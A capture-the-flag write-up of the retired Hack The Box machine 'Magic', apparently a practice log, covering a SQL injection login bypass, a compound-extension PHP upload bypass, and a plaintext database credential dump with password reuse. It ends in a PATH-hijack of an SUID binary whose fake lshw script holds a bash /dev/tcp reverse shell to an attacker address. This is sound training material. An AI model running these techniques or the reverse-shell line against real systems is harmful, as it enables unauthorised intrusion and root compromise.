




<p align="center">
  
</p>

# magic - hack the box

**platform:** Hack The Box · retired machine  
**os:** Ubuntu 18.04.4 LTS (bionic) · x86_64  
**outcome:** Shell as `www-data`, local access as `theseus`, reverse shell as root  
**focus:** SQL injection · file upload validation · PHP handling · MySQL credential storage · password reuse · SUID binaries · PATH resolution

---

## `00 / prep`

prepped the usual engagement structure; fish for environment variables and tmux for logging

```sh
CPTS/day09/magic
❯ cat env.fish
# env.fish
set -gx ENGAGEMENT_DIR (pwd -P)
set -gx ENGAGEMENT "magic"
set -gx IP "<TARGET_IP>"

if set -q TMUX
    set -l session (tmux display-message -p '#S')
    tmux set-environment -t "$session" ENGAGEMENT "$ENGAGEMENT"
    tmux set-environment -t "$session" IP "$IP"
    tmux set-environment -t "$session" ENGAGEMENT_DIR "$ENGAGEMENT_DIR"
end

CPTS/day09/magic
❯ tree
.
├── env.fish
├── logs
│   └── tmux
│       ├── s0-p0-20261124T124712-ABDtv5.log
│       └── s0-p36-20261124T124712-l0931W.log
├── loot
├── notes
│   └── notes.md
└── scans

6 directories, 4 files
```


---

## `01 / recon`

### service discovery

started with the standard nmap scans

```sh
❯ nmap -sVC -oA scans/initial $IP
Host is up (0.046s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds

❯ nmap -p- --min-rate 1000 -oA scans/allports $IP
Host is up (0.045s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 64.81 seconds
```

| port | service | observation |
| ---: | --- | --- |
| 22 | SSH | OpenSSH 7.6p1 Ubuntu |
| 80 | HTTP | Apache 2.4.29, Magic Portfolio |

### web

only two ports open. went to the webserver and found a magic themed image gallery. there was a login link at the bottom of the page with a note about needing to log in to upload images


captured the login POST in Burp and started testing the username field. there was a difference in the response when I submitted an apostrophe. the normal failed login response included a javascript alert; the malformed username returned the login page without the alert

```http
HTTP/1.1 200 OK
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 4273
Content-Type: text/html; charset=UTF-8

<script>
    alert('Wrong Username or Password')
</script>
```


```http
HTTP/1.1 200 OK
Content-Length: 4221
Content-Type: text/html; charset=UTF-8
```


both returned 200, but the response was 52 bytes shorter and the alert was gone. suspected SQLi, not enough to confirm it yet

saved the request for sqlmap

```sh
CPTS/day09/magic took 8s
❯ sqlmap -r loot/req
[INFO] parsing HTTP request from 'loot/req'
[INFO] testing connection to the target URL
[INFO] testing if the target URL content is stable
[INFO] target URL content is stable
[INFO] testing if POST parameter 'username' is dynamic
[WARNING] POST parameter 'username' does not appear to be dynamic
[WARNING] heuristic (basic) test shows that POST parameter 'username' might not be SQL injectable
[INFO] testing for SQL injection on POST parameter 'username'
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] testing 'Boolean-based blind - Parameter replace (original value)'
...
got a 302 redirect to '[TARGET]/upload.php'. Do you want to follow? [Y/n]
```

interesting, despite the initial heuristic sqlmap got a 302 to upload.php. went back to Burp

### login

wanted to work out why the apostrophe changed the response rather than have sqlmap do it for me. was picturing something like this (not the actual source)

```sql
select .... where username = ' <input> ' and password = ' <input> '
```

tested the username field in Repeater using the SQL comment syntax, got a 302 rather than another 200

```text
username=admin'--+-&password=admin
```


```http
HTTP/1.1 302 Found
Server: Apache/2.4.29 (Ubuntu)
Location: upload.php
Content-Length: 4221
```



realized I was still logged in during one of the earlier tests, oops. logged out and checked upload.php directly, which sent me back to login.php. repeated the login test and was able to access the upload page


```http
HTTP/1.1 200 OK
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 2957
Content-Type: text/html; charset=UTF-8
```


the redirect and access to the upload page confirmed the authentication bypass. the initial difference in response lengths had been a good place to start


---

## `02 / initial access`

### file upload

the upload page was looking promising. first wanted to understand what it accepted and where the files ended up

tried a normal image, `fhack.jpg`, and the server accepted it

```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=[REDACTED]

[image part omitted]
```

```http
HTTP/1.1 200 OK

The file fhack.jpg has been uploaded.
```




also tried a text file containing Hello. the server returned another 200, but the response body made it clear the file was rejected

```http
HTTP/1.1 200 OK

<script>
    alert('Sorry, only JPG, JPEG & PNG files are allowed.')
</script>
```


went back to the main page and found my uploaded image in the gallery


inspected the image element in dev tools to find where it had been stored

```html

```


### upload validation

spent a fair bit of time in Burp trying to figure out what was actually being checked; the extension, the multipart Content-Type, or the contents of the file

some of the files I constructed returned

```http
HTTP/1.1 200 OK

<script>
    alert('What are you trying to do there?')
</script>
```


a shortened image test was also rejected. the message was the same even when the filename looked like an ordinary jpg


went back to a complete JPEG and tested a compound extension. the response confirmed that `a.php.jpg` had been uploaded

```http
HTTP/1.1 200 OK

The file a.php.jpg has been uploaded.
```

getting a file past the upload validation and getting Apache to interpret it as PHP are two separate things. wanted to verify execution before moving on

### www-data

requested the uploaded file in the browser. got a mess of image bytes, but at the very bottom was what I was looking for

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



had code execution as www-data. caught the callback in Penelope

```text
[+] [New Reverse Shell] => ubuntu [HTB_TARGET_IP] Linux-x86_64 www-data (33) Session ID <1>
[+] Agent deployed via /usr/bin/python3
[+] Interacting with session [1] · PTY

www-data@ubuntu:/var/www/Magic/images/uploads$
```




---

## `03 / local enumeration`

### host and application

checked the OS version

```sh
www-data@ubuntu:/home/theseus$ cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=18.04
DISTRIB_CODENAME=bionic
DISTRIB_DESCRIPTION="Ubuntu 18.04.4 LTS"
```

looked through the web application and found the database config

```sh
www-data@ubuntu:/var/www$ cat Magic/db.php5
<?php
class Database
{
    // selected output
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = '[REDACTED]';
...
```

mysqldump was on the box, so I dumped the database with the database creds. there was a `login` table with one record, the admin password was stored in plaintext

```sh
www-data@ubuntu:/var/www/Magic$ MYSQL_PWD='[DB_PASSWORD]' mysqldump -u theseus Magic
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
-- Host: localhost    Database: Magic
-- Server version    5.7.29-0ubuntu0.18.04.1

CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;

INSERT INTO `login` VALUES (1,'admin','[REDACTED]');
```

### theseus

tested the recovered credential against the local account

```sh
www-data@ubuntu:/var/www/Magic/images/uploads$ su theseus
Password:
theseus@ubuntu:/var/www/Magic/images/uploads$
```

was now theseus. another example of password reuse between an application and the OS


---

## `04 / privilege escalation`

### sysinfo

didn't find much enumerating until looking at suid binaries

```sh
theseus@ubuntu:/tmp$ find /bin -perm -4000 2>/dev/null
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping
```

`sysinfo` was unusual, so I used strings to see what it was doing

```sh
theseus@ubuntu:~$ strings /bin/sysinfo
...
setuid
__stack_chk_fail
popen
fgets
pclose
setgid
...
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
...
```

the commands stood out, none of them were using absolute paths. also had `setuid`, `setgid` and `popen` in the strings 

checked my PATH

```sh
theseus@ubuntu:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

PATH is searched in order when resolving commands without a path. the first matching executable wins. if sysinfo uses my environment when resolving its commands, that could be a problem

### root

tested the PATH behavior in the lab, then ran sysinfo

```sh
theseus@ubuntu:~$ export PATH=/tmp:$PATH

theseus@ubuntu:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

theseus@ubuntu:~$ nano /tmp/lshw

theseus@ubuntu:~$ cat /tmp/lshw
#! /bin/bash
/bin/bash -i >& /dev/tcp/<VPN_IP>/1337 0>&1
```

Penelope received a second callback, this time as root

```text
theseus@ubuntu:/tmp$ chmod +x ./lshw

theseus@ubuntu:/tmp$ /bin/sysinfo
====================Hardware Info====================
[+] [New Reverse Shell] => ubuntu [HTB_TARGET_IP] Linux-x86_64 root(0) Session ID <2>
[!] Session detached

(Penelope)─(Session [1])> interact 2
[+] Agent deployed via /usr/bin/python3
[+] Interacting with session [2] · PTY

root@ubuntu:/tmp#
```


---

## `05 / findings and lessons`

### systems / methods / findings

| system / object | method | finding |
| --- | --- | --- |
| PHP login | Burp response comparison | the missing alert and subsequent redirect indicated different application behavior |
| file upload | filename, content type and file contents | passing one check didn't necessarily mean the file would pass the others |
| Apache | browser response inspection | confirmed server-side execution rather than just a successful upload |
| MySQL | application configuration and database inspection | database credentials and a plaintext application password |
| Linux | local credential validation | password reuse between the application and OS |
| SUID binary | `strings` and permission checks | privileged program referenced commands without absolute paths |

### methodology

- dont just look at the status code. both login responses returned 200, but one was missing the javascript alert
- make sure I'm actually logged out before testing authentication. an existing session can make a failed test look successful
- file extension, MIME type and file contents are different things. test them separately
- a successful upload doesn't necessarily mean the webserver will execute the file
- `strings` can give me an idea of what a binary does, but doesn't tell me exactly how or when it does it

---

<sub>nu11s3c</sub>
